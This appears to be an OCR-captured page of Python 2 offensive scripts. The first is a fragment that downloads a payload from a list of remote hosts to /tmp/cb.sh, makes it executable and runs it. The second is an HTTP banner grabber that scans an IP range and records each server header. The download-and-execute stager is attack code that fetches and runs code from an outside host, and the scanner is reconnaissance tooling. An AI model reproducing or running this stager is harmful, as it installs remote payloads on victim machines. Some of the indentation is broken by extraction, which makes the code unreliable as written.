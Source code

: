 for url in urls:
  u = "http://%s:%s/%s" % (url, port, payload)
  try:
    r = urllib2.urlopen(u)
    wfile = open("/tmp/cb.sh","wb")
    wfile.write(r.read())
    wfile.close()
    break
  except: continue

if os.path.exists("/tmp/cb.sh"): 
  os.system("chmod 700 /tmp/cb.sh") 
  os.system("/tmp/cb.sh")


PYTHON HTTP BANNER GRABBER (* TAKES AN IP RANGE, PORT, AND PACKET DELAY)

#!/usr/bin/python
import urllib2, sys, time

from optparse import OptionParser

parser = OptionParser() 
parser.add_option("-t", dest="iprange",help="target IP range, i.e. 192.168.1.1-25")
parser.add_option("-p", dest="port",default="80",help="port, default=80")
parser.add_option("-d", dest="delay",default=".5",help="delay (in seconds), default=.5 seconds")

(opts, args) = parser.parse_args()

if opts.iprange is None:
  parser.error("you must supply an IP range")

ips = []
headers = {}

octets = opts.iprange.split('.')

start = octets[3].split('-')[0] 
stop = octets[3].split('-')[1]

for i in range(int(start),int(stop)+1):
  ips.append('%s.%s.%s.%d' % (octets[0],octets[1],octets[2],i))

print '\nScanning IPs: %s\n' % (ips)

for ip in ips:
try:	
  response = urllib2.urlopen('http://%s:%s' % (ip,opts.port))
  headers[ip] = dict(response.info())
except Exception as e:
  headers[ip] = "Error: " + str(e)	

time.sleep(float(opts.delay))	

for header in headers:
try:
  print '%s : %s' % (header,headers[header].get('server'))
except:
  print '%s : %s' % (header,headers[header])
